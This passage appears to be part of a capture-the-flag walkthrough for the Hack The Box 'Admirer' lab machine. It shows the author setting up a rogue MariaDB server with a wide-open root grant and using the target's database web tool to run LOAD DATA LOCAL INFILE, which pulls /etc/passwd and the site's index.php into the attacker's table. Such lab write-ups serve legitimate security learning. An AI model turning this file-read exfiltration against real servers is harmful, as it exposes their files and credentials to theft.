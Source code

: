 Use the admirer database:  
<p align="center">
<img width="129" alt="29" src="https://user-images.githubusercontent.com/21021400/144714177-126deea6-1260-49a5-82f1-86dbd1653131.png">
</p>
**USE admirer;**  

Create a table:  
<p align="center">
<img width="259" alt="30" src="https://user-images.githubusercontent.com/21021400/144714178-3bc57a5c-4a29-4dc4-93f4-4e9a0cabd85e.png">
</p>
**CREATE TABLE getfile(content varchar(256));**  

Allow access from the admirer machine:  
<p align="center">
<img width="366" alt="31" src="https://user-images.githubusercontent.com/21021400/144714179-f9dc368f-8244-4bfa-a3de-a3ab960e6af9.png">
</p>
**GRANT ALL PRIVILEGES ON *.* TO root@10.10.10.187 IDENTIFIED BY 'toor';**  

Last thing, is accepting connections remotely.  
edit the file /etc/mysql/mariadb.conf.d/50-server.cnf and set bind-address = 0.0.0.0  
<p align="center">
<img width="150" alt="32" src="https://user-images.githubusercontent.com/21021400/144714156-d0f87f7a-4bb7-4c0d-a634-fc44dd8620d5.png">
</p>

Restart the mysql service:  
**systemctl restart mysql**  

Login using the local machine's IP, credentials for db and db's name created previously.  
<p align="center">
<img width="170" alt="33" src="https://user-images.githubusercontent.com/21021400/144714157-e7cfa64d-14ed-4fca-b7fa-0395a778c9c3.png">
</p>

and we're in.  

<p align="center">
<img width="534" alt="34" src="https://user-images.githubusercontent.com/21021400/144714158-23d21294-c53a-4c6c-a7a4-200367814ff4.png">
</p>

Navigating to the SQL Command button on the top left and executing the following command to read /etc/passwd as a POC:  
<p align="center">
<img width="336" alt="35" src="https://user-images.githubusercontent.com/21021400/144714159-153355b2-4193-4ae9-8ed8-2392dba65a5c.png">
</p>
**LOAD DATA local INFILE '/etc/passwd' INTO TABLE getfile fields TERMINATED BY "\n";**  

Failed.

Try to read the index.php file of the website (currently we're in /utility-scripts):  
<p align="center">
<img width="311" alt="36" src="https://user-images.githubusercontent.com/21021400/144714160-86af1026-f922-4635-9d87-cfadeea5ef4b.png">
</p>
**LOAD DATA local INFILE '../index.php' INTO TABLE getfile fields TERMINATED BY "\n";**  

